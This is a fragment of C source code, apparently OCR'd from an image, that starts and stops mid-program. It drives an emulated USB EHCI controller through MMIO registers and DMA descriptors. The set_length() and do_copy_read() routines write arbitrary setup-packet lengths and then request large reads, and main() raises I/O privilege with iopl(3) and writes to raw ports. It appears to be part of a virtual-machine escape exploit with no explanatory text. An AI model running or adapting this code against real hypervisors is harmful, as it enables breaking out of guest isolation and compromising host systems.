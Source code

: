 ```c
qh->token=1<<7;
qh->current_qtd=virt2phys(dmabuf+0x200);
struct EHCIqtd * qtd;
qtd=dmabuf+0x200;
qtd->token=1<<7 | 2<<8 | 8<<16;
qtd->bufptr[0]=virt2phys(dmabuf+0x300);
setup_buf[6]=0xff;
setup_buf[7]=0x0;
dmabuf32[0]=virt2phys(dmabuf+0x100)+0x2;
mmio_write(0x28,0x0);
mmio_write(0x30,0x0);
mmio_write(0x38,virt2phys(dmabuf));
mmio_write(0x34,virt2phys(dmabuf));
mmio_write(0x20,0x11);
}

void set_length(uint16_t len,uint8_t in){
mmio_write(0x64,0x100);
mmio_write(0x64,0x4);
setup_buf[0]=in;
setup_buf[6]=len&0xff;
setup_buf[7]=(len>>8)&0xff;
qh->epchar=0x00;
qh->token=1<<7;
qh->current_qtd=virt2phys(dmabuf+0x200);

qtd->token=1<<7 | 2<<8 | 8<<16;
qtd->bufptr[0]=virt2phys(dmabuf+0x300);
dmabuf32[0]=virt2phys(dmabuf+0x100)+0x2;
mmio_write(0x28,0x0);
mmio_write(0x30,0x0);
mmio_write(0x38,virt2phys(dmabuf));
mmio_write(0x34,virt2phys(dmabuf));
mmio_write(0x20,0x11);
}

void do_copy_read(){
mmio_write(0x64,0x100);
mmio_write(0x64,0x4);

qh->epchar=0x00;
qh->token=1<<7;
qh->current_qtd=virt2phys(dmabuf+0x200);
qtd->token=1<<7 | 1<<8 | 0x1f00<<16;
qtd->bufptr[0]=virt2phys(dmabuf+0x1000);
qtd->bufptr[1]=virt2phys(dmabuf+0x2000);
dmabuf32[0]=virt2phys(dmabuf+0x100)+0x2;
mmio_write(0x28,0x0);
mmio_write(0x30,0x0);
mmio_write(0x38,virt2phys(dmabuf));
mmio_write(0x34,virt2phys(dmabuf));
mmio_write(0x20,0x11);
}

int main()
{
    init();
    iopl(3);
    outw(0,0xc0c0);
    outw(0,0xc0e0);
    outw(0,0xc010);
    outw(0,0xc0a0);
    sleep(3);
```